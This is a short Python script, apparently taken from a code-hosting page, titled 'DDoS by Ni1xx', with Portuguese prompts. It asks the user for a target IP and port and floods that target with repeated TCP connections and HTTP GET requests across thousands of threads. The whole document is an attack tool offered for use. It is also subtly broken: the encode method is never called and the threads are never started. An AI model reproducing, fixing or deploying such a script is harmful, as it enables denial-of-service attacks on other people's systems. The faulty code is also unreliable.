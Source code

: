 import socket
import random
import time
import threading

print ("DDoS by Ni1xx")

def ataque(ip_alvo, porta_alvo):
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip_alvo, porta_alvo))
            s.send("GET / HTTP/1.1\r\n" .encode)
            s.close()
        except Exception as e:
            print("Erro", e)

ip_alvo = input("Digite o IP do alvo: ")
porta_alvo = int(input("Digite a porta do alvo: "))

num_threads = 9999

for _ in range(num_threads):
    t = threading.Thread(target=ataque, args=(ip_alvo, porta_alvo))

while True:
    time.sleep(0)
